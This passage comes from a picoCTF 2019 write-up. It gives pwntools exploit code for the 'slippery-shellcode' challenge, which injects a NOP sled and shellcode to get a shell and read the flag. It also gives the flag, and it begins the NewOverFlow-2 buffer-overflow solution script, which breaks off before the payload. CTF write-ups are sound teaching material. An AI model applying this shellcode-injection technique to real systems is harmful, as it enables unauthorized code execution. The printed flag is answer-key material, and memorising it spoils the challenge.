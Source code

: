 ```python
  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('/problems/slippery-shellcode_1_69e5bb04445e336005697361e4c2deb0/vuln')
  REMOTE = True


sh.sendlineafter(':\n', '\x90'*256+asm(shellcraft.i386.linux.sh()))
sh.sendlineafter('$ ', 'cat /problems/slippery-shellcode_1_69e5bb04445e336005697361e4c2deb0/flag.txt')
sh.interactive()

```

flag: `picoCTF{sl1pp3ry_sh311c0d3_0fb0e7da}`

# NewOverFlow-2

## Problem

Okay now lets try mainpulating arguments. program. You can find it in /problems/newoverflow-2_2_1428488532921ee33e0ceb92267e30a7 on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/NewOverFlow-2/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/NewOverFlow-2/vuln.c)

## Solution

Think the challenge author forgot to remove the `flag` function which makes the challenge solvable with the same script as [NewOverFlow-1](#newoverflow-1)

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  if DEBUG:
    attach_gdb()

  REMOTE = False
else:
```